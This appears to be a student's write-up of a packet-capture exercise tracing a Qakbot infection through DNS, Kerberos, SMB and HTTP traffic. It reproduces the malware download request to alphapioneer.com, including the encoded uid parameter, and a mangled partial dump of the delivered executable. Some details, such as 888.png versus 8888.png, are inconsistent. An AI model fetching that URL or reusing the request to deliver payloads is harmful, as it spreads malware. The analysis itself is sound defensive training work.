


Revision A: I learned in class today that I did a poor job of explaining what I did. I also learned the answer to the hurdle I couldn't cross over the weekend: How do I know which malware I have?
The problem statement.
Questions
Look at the picture very carefully. In particular, look at the last column. A very weak signal that something is going wrong is that there is a DNS query error. That happens. But 89 times (2nd column)?. Another very weak signal: a let's encrypt SSL certificate. Anybody can get a let's encrypt certificate, they are virtually worthless [full disclosure: jeffsilverman.ddns.net is protected by a let's encrypt cert] In the third row, there is a weak signal: a DNS lookup to a suspicious TLD (top level [DNS] domain), .ga (see the IANA's delegation record for ccTLD .ga). But the kiss of death is row 4: the Event Message is ET MALWARE Windows executable sent when remote host claims to send an image M3. The JPEG rendering buffer overflow may be a warning that the malware is struggling to become executable. Next thing I see is SMBv1 in use. I knew that SMBv1 was hopelessly insecure which is why they came out with SMBv2.
Immediately, I know that 10.0.0.167 is infected, which is the answer
to Question 2, and I know what IPv4 address the
malware came from, 119.31.234.40. So I can use the wireshark
filter ip.addr==119.31.234.40
to see all of the malware coming from that host.
"To secure SMB, you need to audit your environment for devices running SMB and shut down the ones that constitute a security risk. SMBv1 is full of known exploits and has been used in numerous attacks, such as with WannaCry and NotPetya. Organizations should move to the newer SMBv2 or SMBv3 variants. To do this, you need a tool that detects SMB traffic to find machines using the outdated SMBv1 protocol. Either disable or patch these devices before they become infected. "
My (tentative) assumption is that the infected machine is going to be busy, either exfiltrating data or attacking other machines or both, so getting a list of IPv4 addresses sorted by count is not a bad way to start. In wireshark, I went to the statistics menu, then IPv4 statistics and then Destinations and Ports. There are no IPv6 addresses.
(udp.port == 53 || tcp.port==53) && !(ip.addr==10.0.0.202)
(I excluded 10.0.0.202 partly because it's a
linux machine and partly because it makes lots of DNS
queries). I see that 10.0.0.167 makes a lot of queries to IPv4
addresses in the steelcoffee.net domain. A quick google search of
steelcoffee.net yields articles about the analysis of this packet
capture so I decided not go any further. I want to figure this out
myself.I used the Wireshark protocol hierarch statistics window. I made a copy in CSV format and pasted that into gedit. Then I did a global search and replace to convert every comma to a </td><td> pair, added some tags at the beginning and end of each row, and voilà! Of course, carrying quotients to 15 places is rediculous.
| "Protocol" | "Percent Packets" | "Packets" | "Percent Bytes" | "Bytes" | "Bits/s" | "End Packets" | "End Bytes" | "End Bits/s" |
|---|---|---|---|---|---|---|---|---|
| "Frame" | 100 | 57430 | 100 | 32006828 | 89331.8617003334 | 0 | 0 | 0 |
| "Ethernet" | 100 | 57430 | 2.512026496346342 | 804020 | 2244.040035591845 | 0 | 0 | 0 |
| "Internet Protocol Version 4" | 100 | 57430 | 3.588884221829167 | 1148688 | 3206.017089629518 | 0 | 0 | 0 |
| "Internet Group Management Protocol" | 0.0383075047884381 | 22 | 0.0011997440046230135 | 384 | 1.0717536549678721 | 22 | 384 | 1.0717536549678721 |
| "User Datagram Protocol" | 10.54327006790876 | 6055 | 0.15134270724984056 | 48440 | 135.19725793396802 | 0 | 0 | 0 |
| "Network Time Protocol" | 0.05223750652968832 | 30 | 0.008098272031205342 | 2592 | 7.234337171033136 | 30 | 2592 | 7.234337171033136 |
| "Connectionless Lightweight Directory Access Protocol" | 0.09054501131812641 | 52 | 0.03456762413320058 | 11064 | 30.87990218376181 | 52 | 11064 | 30.87990218376181 |
| "Simple Service Discovery Protocol" | 0.1985025248128156 | 114 | 0.055994302215764714 | 17922 | 50.02075261545365 | 114 | 17922 | 50.02075261545365 |
| "Link-local Multicast Name Resolution" | 0.2681525335190667 | 154 | 0.012191148713643227 | 3902 | 10.890580108553742 | 154 | 3902 | 10.890580108553742 |
| "Multicast Domain Name System" | 0.29949503743687966 | 172 | 0.018308593403882446 | 5860 | 16.35540733883263 | 172 | 5860 | 16.35540733883263 |
| "NetBIOS Datagram Service" | 0.40397005049625634 | 232 | 0.1412167428774885 | 45199 | 126.15154544503346 | 0 | 0 | 0 |
| "SMB (Server Message Block Protocol)" | 0.40397005049625634 | 232 | 0.08177942531512339 | 26175 | 73.05508312183346 | 0 | 0 | 0 |
| "SMB MailSlot Protocol" | 0.40397005049625634 | 232 | 0.0181211334031601 | 5800 | 16.1879458302439 | 0 | 0 | 0 |
| "Microsoft Windows Browser Protocol" | 0.40397005049625634 | 232 | 0.01944272640825264 | 6223 | 17.368549465794448 | 232 | 6223 | 17.368549465794448 |
| "NetBIOS Name Service" | 0.7208775901096988 | 414 | 0.07301567028135372 | 23370 | 65.22625759531033 | 414 | 23370 | 65.22625759531033 |
| "GQUIC (Google Quick UDP Internet Connections)" | 2.6101340762667595 | 1499 | 3.7072745852853646 | 1186581 | 3311.7774053787307 | 1499 | 1186581 | 3311.7774053787307 |
| "Domain Name System" | 5.899355737419468 | 3388 | 0.7592536192589906 | 243013 | 678.2553931112174 | 3382 | 242365 | 676.4468088184591 |
| "Malformed Packet" | 0.010447501305937664 | 6 | 0 | 0 | 0 | 6 | 0 | 0 |
| "Transmission Control Protocol" | 89.4184224273028 | 51353 | 88.49830729868015 | 28325501 | 79057.18548319301 | 35548 | 16113335 | 44972.72312492639 |
| "Malformed Packet" | 0.0034825004353125546 | 2 | 0 | 0 | 0 | 2 | 0 | 0 |
| "Post Office Protocol" | 0.006965000870625109 | 4 | 0.0007498400028893835 | 240 | 0.66984603435492 | 4 | 240 | 0.66984603435492 |
| "Kerberos" | 0.015671251958906496 | 9 | 0.014356311721986321 | 4595 | 12.824760532753572 | 9 | 4595 | 12.824760532753572 |
| "Simple Mail Transfer Protocol" | 0.020895002611875328 | 12 | 0.0025557046765146488 | 818 | 2.2830585670930192 | 12 | 818 | 2.2830585670930192 |
| "Internet Message Access Protocol" | 0.03308375413546927 | 19 | 0.02169537075026616 | 6944 | 19.38087859400235 | 19 | 6944 | 19.38087859400235 |
| "Lightweight Directory Access Protocol" | 0.12711126588890823 | 73 | 0.11495359677628786 | 36793 | 102.69018809175239 | 70 | 28483 | 79.49676915221328 |
| "Distributed Computing Environment / Remote Procedure Call (DCE/RPC)" | 0.3865575483196935 | 222 | 0.13487434618638247 | 43169 | 120.48576440444809 | 49 | 13255 | 36.9950382723936 |
| "Microsoft Service Control" | 0.005223750652968832 | 3 | 0.0006498613358374656 | 208 | 0.580533229774264 | 3 | 208 | 0.580533229774264 |
| "Local Security Authority" | 0.013930001741250218 | 8 | 0.004249093349706507 | 1360 | 3.79579419467788 | 8 | 1360 | 3.79579419467788 |
| "Microsoft Network Logon" | 0.01741250217656277 | 10 | 0.013509617385390393 | 4324 | 12.068392718961142 | 10 | 4324 | 12.068392718961142 |
| "DCE/RPC Endpoint Mapper" | 0.0383075047884381 | 22 | 0.010535252040595838 | 3372 | 9.411336782686627 | 22 | 3372 | 9.411336782686627 |
| "DRSUAPI" | 0.06965000870625108 | 40 | 0.016446490730040477 | 5264 | 14.691956353517913 | 40 | 5264 | 14.691956353517913 |
| "SAMR (pidl)" | 0.15671251958906496 | 90 | 0.021014266080974973 | 6726 | 18.772435112796632 | 90 | 6726 | 18.772435112796632 |
| "Hypertext Transfer Protocol" | 0.5606825700853213 | 322 | 11.586830784981254 | 3708577 | 10350.73165229111 | 176 | 90009 | 251.21738210938332 |
| "Online Certificate Status Protocol" | 0.0017412502176562773 | 1 | 0.001471561005670415 | 471 | 1.3145728424215306 | 1 | 471 | 1.3145728424215306 |
| "HTML Form URL Encoded" | 0.0017412502176562773 | 1 | 0.00018433566737697344 | 59 | 0.1646704834455845 | 1 | 722 | 2.015120153351051 |
| "eXtensible Markup Language" | 0.005223750652968832 | 3 | 0.03807000181336307 | 12185 | 34.00864136922792 | 3 | 14660 | 40.91642859851303 |
| "JPEG File Interchange Format" | 0.006965000870625109 | 4 | 0.8723888540282717 | 279224 | 779.3212045696591 | 4 | 281263 | 785.0121048365328 |
| "JavaScript Object Notation" | 0.015671251958906496 | 9 | 0.005555064688072183 | 1778 | 4.962442704512699 | 9 | 13691 | 38.211925234805044 |
| "Compuserve GIF" | 0.01741250217656277 | 10 | 0.0013434633385101453 | 430 | 1.200140811552565 | 10 | 430 | 1.200140811552565 |
| "Portable Network Graphics" | 0.020895002611875328 | 12 | 0.10652726974381842 | 34096 | 95.16279328068897 | 12 | 39006 | 108.86672673353337 |
| "Media Type" | 0.06268500783562599 | 36 | 11.514939874704234 | 3685567 | 10286.51016374733 | 36 | 2615862 | 7300.936612998874 |
| "Line-based text data" | 0.12188751523593941 | 70 | 6.192213111527328 | 1981931 | 5531.619252979504 | 70 | 636759 | 1777.2103791241855 |
| "NetBIOS Session Service" | 0.7052063381507923 | 405 | 0.20966463780790773 | 67107 | 187.29732428106507 | 26 | 988 | 2.757532841427754 |
| "SMB (Server Message Block Protocol)" | 0.17064252133031516 | 98 | 0.04334700083369711 | 13874 | 38.722682836000665 | 78 | 12054 | 33.64301707547586 |
| "SMB Pipe Protocol" | 0.03482500435312554 | 20 | 0.0009060566701580051 | 290 | 0.809397291512195 | 0 | 0 | 0 |
| "Microsoft Windows Lanman Remote API Protocol" | 0.03482500435312554 | 20 | 0.0010622733374266267 | 340 | 0.94894854866947 | 20 | 340 | 0.94894854866947 |
| "SMB2 (Server Message Block Protocol version 2)" | 0.4892913111614139 | 281 | 0.15849430627739805 | 50729 | 141.58591448662807 | 185 | 29999 | 83.72796326922186 |
| "Data" | 3.393696674212084 | 1949 | 1.0501165563797825 | 336109 | 938.0886698374909 | 1949 | 336109 | 938.0886698374909 |
| "Transport Layer Security" | 23.616576702072088 | 13563 | 70.78414955708826 | 22655761 | 63232.79858809524 | 12887 | 18917143 | 52798.22174947889 |
kerberos.cname_string to see
what I can find. I find that any kerberos message that has a
will contain a username. There are 4 AS-REQ packets and 1 TGS-REP
packet. The packets from 10.0.0.149 (3289, 3301) have
alyssa.fitzgerald, the packets from 10.0.0.167 (3988,4010) have
elmer.obrien. Elmer also got a Ticket Granting Service (TGS)
ticket in packet 4188. So the answers to Question 1 is 10.0.0.149 Alyssa Fitzgerald and
10.0.0.167 Elmer O'Brien. I use the filter ip.addr==119.31.234.40 and I see that in packet 5518, there is a GET request to 119.31.234.40 and gets /spool/888.png. I did not look at the HTTP header closely. If I had, I would have seen that user-agent is LaraConf. When I turned in the first version of the homework, I did not understand how a PNG file could be executed. Now, I do: the user-agent LaraConf is not a standard user-agent. This time, I did a google search on LaraConf and I find Malware Analysis: Qakbot [part 1], which is the answer to question 3.
There is a HTTP conversation that starts at packet 5515. It gets interesting at packet 5518. The HTTP virtual host is alphapioneer.com. Its IPv4 address is 119.31.234.40 and I think it's in Singapore, although that could be the end point of a VPN.
jeffs@jeffs-desktop:~$ tracepath alphapioneer.com
1?: [LOCALHOST] pmtu 1500
1: local-router 2.143ms
1: local-router 1.887ms
2: local-router 2.037ms pmtu 1492
2: tukw-dsl-gw67.tukw.qwest.net 5.263ms
3: tukw-agw1.inet.qwest.net 6.883ms
4: no reply
5: TATA-level3-Seattle2.Level3.net 4.532ms
6: if-ae-2-2.tcore1.00s-seattle.as6453.net 248.515ms asymm 16
7: if-ae-45-2.tcore1.sv1-santaclara.as6453.net 252.502ms asymm 15
8: if-et-6-2.hcore1.kv8-chiba.as6453.net 123.378ms asymm 10
9: if-et-1-2.hcore2.kv8-chiba.as6453.net 137.433ms
10: if-ae-23-2.tcore1.svw-singapore.as6453.net 256.230ms asymm 14
11: if-be-45-2.ecore2.esin4-singapore.as6453.net 248.695ms asymm 14
12: if-be-10-2.ecore2.svq-singapore.as6453.net 244.875ms asymm 14
13: if-ae-46-2.thar1.svq-singapore.as6453.net 242.877ms asymm 14
14: if-ae-22-2.tcore1.asina-singapore.as6453.net 248.779ms
15: 180.87.172.25 199.457ms asymm 10
16: no reply
17: 138.168.22.103.in-addr.arpa 201.549ms asymm 11
18: 100.92.245.103.sgsvr.com 183.181ms asymm 10
19: no reply
20: no reply
21: no reply
22: no reply
23: no reply
24: no reply
25: no reply
26: no reply
27: no reply
28: no reply
29: no reply
30: no reply
Too many hops: pmtu 1492
Resume: pmtu 1492
jeffs@jeffs-desktop:~$ s sgsvr.com
Domain Name: SGSVR.COM
Registry Domain ID: 1473342678_DOMAIN_COM-VRSN
Registrar WHOIS Server: whois.crazydomains.com
Registrar URL: http://www.crazydomains.com.au
Updated Date: 2019-04-18T03:57:24Z
Creation Date: 2008-05-16T12:14:40Z
Registry Expiry Date: 2025-05-16T12:14:40Z
Registrar: Dreamscape Networks International Pte Ltd
Registrar IANA ID: 1291
Registrar Abuse Contact Email: abuse@crazydomains.com
Registrar Abuse Contact Phone: +61 894 220 890
Domain Status: ok https://icann.org/epp#ok
Name Server: NAMES1.DS.NETWORK
Name Server: NAMES2.DS.NETWORK
DNSSEC: signedDelegation
The conversation continues at packet 7388. The response is a 1,950,208 PNG image. That suggests to me that my thought that the JPEG decoding error was connected with the attack might have been a red-herring. Look at the first 0x360 (864 bytes) it doesn't look like a PNG file at all.
One of my classmates suggested going to virustotal, which I thought was brilliant. I gave virustotal the URL http://alphapioneer.com/spool/8888.png and it returned a 404 error. But 5 of the vendors flagged it as malicious.
Then, I gave virustotal the URL
http://alphapioneer.com/spool/8888.png?uid=VwBpAG4AZABvAHcAcwAgAEQAZQBmAGUAbgBkAGUAcgAgAC0AIAA2ACwAMgAxACwAMAB8AE0AaQBjAHIAbwBzAG8AZgB0ACAAVwBpAG4AZABvAHcAcwAgADEAMAAgAFAAcgBvAA==
This time, 8 vendors labeled it "malicious", one vendor labeled it "suspicious".
This is what I think is interesting in the malware. I don't know enough about the internals of a Windows .exe file.
GET /spool/8888.png?uid=VwBpAG4AZABvAHcAcwAgAEQAZQBmAGUAbgBkAGUAcgAgAC0AIAA2ACwAMgAxACwAMAB8AE0AaQBjAHIAbwBzAG8AZgB0ACAAVwBpAG4AZABvAHcAcwAgADEAMAAgAFAAcgBvAA== HTTP/1.1
Connection: Keep-Alive
Accept: */*
Accept-Language: en-US
User-Agent: LaraConf
Host: alphapioneer.com
HTTP/1.1 200 OK Date: Thu, 23 Apr 2020 23:18:35 GMT Server: Apache Connection: keep-alive, Keep-Alive X-Powered-By: PHP/5.4.16 Accept-Ranges: bytes Expires: 0 Cache-Control: no-cache, no-store, must-revalidate Content-Disposition: attachment; filename="8888.png" Upgrade: h2 Connection: Upgrade Content-Length: 1950208 Vary: Accept-Encoding Keep-Alive: timeout=2, max=50 Content-Type: image/png MZÿÿ¸@º´ Í!¸LÍ!This program cannot be run in DOS mode. $PEL}¡^à 2< @ð´´à »¸.textM `.rdataÉ @@.data+°,@À.rsrc ... ØئغØÔØðØÙÙ6ÙNÙ`ÙpÙÙ٦پÙØÙäÙîÙúÙÚÚ4ÚFÚXÚlÚÚÚ²ÚTVirtualAllocùGetModuleHandleW¶lstrlenW©lstrcmpAWriteProcessMemoryWriteFilezWideCharToMultiBytedWaitForSingleObjectcWaitForMultipleObjectsEx]VirtualQueryEx\VirtualQuery[VirtualProtectExZVirtualProtectWVirtualFreeAUnmapViewOfFile.TerminateThread-TerminateProcess*SystemTimeToFileTime'SuspendThread!Sleep SizeofResource SetThreadPrioritySetThreadContextSetThreadAffinityMasköSetPriorityClassìSetLastErrorßSetFilePointerÓSetEventResumeThreadResetEvent{ReleaseSemaphorewReleaseMutexkReadProcessMemoryhReadFileUQueryPerformanceFrequencyTQueryPerformanceCounterHPulseEvent;OutputDebugStringW3OpenProcess0OpenMutexW+OpenFileMappingA,OpenFileMappingW'OpenEventAMultiByteToWideCharMulDiv MapViewOfFileLockResourceýLocalFreeùLocalAllocöLoadResourceòLoadLibraryExAóLoadLibraryExWñLoadLibraryAôLoadLibraryWïLeaveCriticalSection´InitializeCriticalSectionGlobalUnlockGlobalSizeGlobalReAllocGlobalHandleGlobalLockGlobalFreeGlobalFindAtomWGlobalDeleteAtom GlobalAllocGlobalAddAtomWGetWindowsDirectoryAGetWindowsDirectoryWwGetVolumeInformationAuGetVersionExAvGetVersionExWtGetVersionfGetTickCountaGetThreadPriority_GetThreadLocale\GetThreadContext[GetTempPathWMGetSystemTimeEGetSystemDirectoryAFGetSystemDirectoryW:GetStartupInfoW+GetProcessVersion!GetProcessAffinityMask GetProcAddressGetPriorityClassöGetModuleHandleAôGetModuleFileNameAõGetModuleFileNameWíGetLogicalDrivesæGetLastErrorÔGetFileSizeÉGetFileAttributesAÎGetFileAttributesWÆGetExitCodeThreadÅGetExitCodeProcessÁGetEnvironmentStringsW»GetDriveTypeWGetCurrentThreadId¬GetCurrentThreadªGetCurrentProcessId©GetCurrentProcessxGetComputerNameWoGetCommandLineAOFreeResourceÀInterlockedIncrement¼InterlockedDecrementLFreeLibraryGFormatMessageAHFormatMessageW6FindResourceA9FindResourceW0FindNextFileWFindFirstFileA$FindFirstFileWFindCloseFileTimeToDosDateTimeExitProcessíEnumResourceNamesWÙEnterCriticalSectionÔDuplicateHandle¾DeleteCriticalSection£CreateThreadCreateSemaphoreWCreateMutexACreateMutexWyCreateFileMappingA|CreateFileMappingWxCreateFileACreateFileWrCreateEventAuCreateEventWUCompareStringWCCloseHandle1GetProfileSectionA FatalExitExitThread7GetShortPathNameAµGetDiskFreeSpaceExAïGetLongPathNameAGetConsoleTitleAHeap32ListNextÜIsValidLanguageGroupFileTimeToSystemTimeRtlZeroMemory_lclose-OpenJobObjectAóGetMailslotInfoºGetDriveTypeA)SwitchToThreadÕIsProcessorFeaturePresent¤_lwriteNCommConfigDialogA½InterlockedExchange¾InterlockedExchangeAdd9GetStartupInfoAKERNEL32.dll×LoadIconWÔLoadCursorFromFileWGetAsyncKeyState%GetForegroundWindow2GetKeyboardLayoutGetDCoGetSystemMetricsGetDlgCtrlID;GetListBoxInfosGetThreadDesktop²ShowCaret DestroyWindowGetClipboardVieweruGetTopWindow)CharLowerAÖLoadIconAüWaitForInputIdleÕTranslateMessageÅSystemParametersInfoWAnimateWindow¸ShowWindow´ShowOwnedPopups¨SetWindowRgn§SetWindowPos¦SetWindowPlacement¥SetWindowLongWSetTimerSetPropASetParentzSetForegroundWindowrSetCursorPoskSetClassLongWaSendMessageTimeoutAbSendMessageTimeoutW_SendMessageCallbackA^SendMessageAcSendMessageWORemovePropALReleaseDCJRegisterWindowMessageW!PostThreadMessageAPostMessageAPostMessageWOffsetRectMsgWaitForMultipleObjectsÙLoadImageWÕLoadCursorWÑLoadBitmapWÍKillTimerÌIsZoomedÊIsWindowVisibleÉIsWindowUnicodeÆIsWindowEnabledÅIsWindow½IsIconicªInvalidateRect¡InflateRectGetWindowThreadProcessIdGetWindowRectGetWindowPlacementGetWindowLongWnGetSystemMenu[GetPropAUGetParent}GetWindowNGetMessageW<GetMenu GetClientRect GetClassNameA GetClassLongWöFrameRectñFindWindowExAòFindWindowExWóFindWindowWëEnumWindowsèEnumThreadWindowsÑEnableWindowÏEnableMenuItemÈDrawTextW¾DrawFrameControl¼DrawFocusRect©DispatchMessageWDestroyIconBChildWindowFromPointEx:CharUpperW,CharLowerW AttachThreadInputAdjustWindowRectExUSER32.dllôGetStockObject£UnrealizeObjectDCreateMetaFileAHCreatePatternBrushíGetPolyFillModeÍDeleteDC,FillPath¡TranslateCharsetInfo^SelectObjectGetTextExtentPointWGetTextExtentPoint32WÐDeleteObjectOCreateRoundRectRgn>CreateFontIndirectWBitBlt©GetCharacterPlacementW4CreateDIBitmapIGdiDeleteSpoolFileHandleèGetPathCLIPOBJ_cEnumStart7CreateEllipticRgnIndirect)CreateBitmapIndirect®GetCurrentObjectGDI32.dllYRegOpenKeyAgRegQueryValueExA°SetSecurityDescriptorDacl{RegUnLoadKeyWZRegOpenKeyExATRegLoadKeyW*RegCloseKeyñOpenProcessTokenLookupAccountSidALookupAccountSidWqInitializeSecurityDescriptor_GetUserNameWTGetTokenInformation0GetLengthSid"QueryServiceStatusõOpenServiceWóOpenSCManagerWSCloseServiceHandle/GetKernelObjectSecurityÊCryptSetProvParamÂCryptGetProvParam²CryptDestroyHashÏCryptSignHashAÈCryptSetHashParam¯CryptCreateHashÆCryptImportKey»CryptExportKeyÇCryptReleaseContext³CryptDestroyKeyÃCryptGetUserKey¬CryptAcquireContextA°CryptDecryptADVAPI32.dll¹SHGetFileInfoAShellExecuteW#Shell_NotifyIconW¼SHGetFolderPathAÀSHGetFolderPathWØSHGetSpecialFolderLocation»SHGetFolderLocationÏSHGetPathFromIDListAÑSHGetPathFromIDListWxSHBrowseForFolderW!Shell_NotifyIcon(ExtractIconAwSHBrowseForFolderAèSHLoadNonloadedIconOverlayIdentifiersShellAboutW.FindExecutableWShellExecuteAçSHLoadInProc¨SHFileOperationA"Shell_NotifyIconADoEnvironmentSubstWuSHBindToParent³SHGetDesktopFolderSHCreateDirectoryExA*ExtractIconExAÉSHGetMallocCheckEscapesWÙSHGetSpecialFolderPathA&ExtractAssociatedIconExWDoEnvironmentSubstA|SHChangeNotify±SHGetDataFromIDListADragQueryFileAorWÃSHGetIconOverlayIndexWåSHIsFileAvailableOffline-FindExecutableADragFinish'ExtractAssociatedIconWSHELL32.dll CreateStreamOnHGlobal OleUninitializegCoTaskMemFreeCoCreateInstancekCoUninitialize=CoInitializeGetHGlobalFromStreamCoCreateGuidole32.dllBStrStrIW@StrStrAStrChrIA7StrRStrIA StrChrASHLWAPI.dllbImageList_GetIconSizewImageList_WritejImageList_ReadaImageList_GetIconnImageList_ReplaceIconcImageList_GetImageCountTImageList_DestroySImageList_CreateCOMCTL32.dll}¡^À@ÊÀ @}¡^X}¡^ pÜáè}¡^}¡^ °Äâ_}¡^Ø}¡^ ð$äè}¡^}¡^ 0 çÏ}¡^kX}¡^ pÜé}¡^}¡^ °ðé°MUIREGINSTÍþÍþèìçYL7ßíä«1?GG&zZ¯C°"z´ÎO¨¸È Ø REGINSTMUIMUIen-US[Version] Signature=$CHICAGO$ AdvancedINF=2.5,"You need a new version of advpack.dll" [Uninstall] Cleanup=1 SmartReboot=N RunPreSetupCommands=PreSetupCommandsSection DelFiles=DelCmstp DelReg=RemoveRunKey [DestinationDirs] DelCmstp=11 [DelCmstp] cmstp.exe [PreSetupCommandsSection] [SourceDisksNames] 1 = , , 0 [Strings] ( @ÀÀÀÿÿÿÿÿÿÿÿÿ"#E@"0ATPf@"Efwd"!TPgwv@"%Egfw`" P2wv""2wvUC"""@wvP"""&wfvE ""&wfgvP"&wwwtwww@wfdw`w`Iw`«Dg` ªª»°@ªªª»°D@Jªª«°D@Iºª»DDPIº¨4DP º¤DUº¤UPIºªUª DKªªªÿÿÿÿÿÿÿÿøÿøÿøÿøø?ø?ðàÀÀÀÃÀÇÀ?ÏÁþÿüÿøÿøóøÃø`ø`ø øüüþÿÿþ?ÿÿÿÿÿÿÿÿ<?xml version="1.0" encoding="UTF-8" standalone="yes"?> <!-- Copyright (c) Microsoft Corporation --> <assembly xmlns="urn:schemas-microsoft-com:asm.v1" manifestVersion="1.0"> <assemblyIdentity version="5.1.0.0" processorArchitecture="x86" name="Microsoft.Windows.Net.cmstp" type="win32" /> <description>Microsoft Connection Manager Profile Installer</description> <trustInfo xmlns="urn:schemas-microsoft-com:asm.v3"> <security> <requestedPrivileges> <requestedExecutionLevel level="asInvoker" uiAccess="false"> </requestedExecutionLevel> </requestedPrivileges> </security> </trustInfo> </assembly> è°4VS_VERSION_INFO½ïþjD±jD±?StringFileInfoì040904B0LCompanyNameMicrosoft Corporation/FileDescriptionMicrosoft Connection Manager Profile ikstallert*FileVersion7.02.7601.17514 (win7sp1_rtm.101119-1850),InternalNameCMSTP.LegalCopyright© Microsoft Corporation. All rights reserved.< OriginalFilenameCMSTP.EXE` ProductNameMicrosoft(R) Connection ManagerDProductVersion7.02.7601.17514DVarFileInfo$Translation °
10.0.0.202 is a Ubuntu Linux machine. Only ubuntu linux machines look for daisy.ubuntu.com. It comes from a service called whoopsie, and it can be safely removed.
[1] Kerberos
Wireshark Captures: A Windows Login Example
by Robert Broeckelmann May 16, 2018 (Downloaded 15-Feb-2022).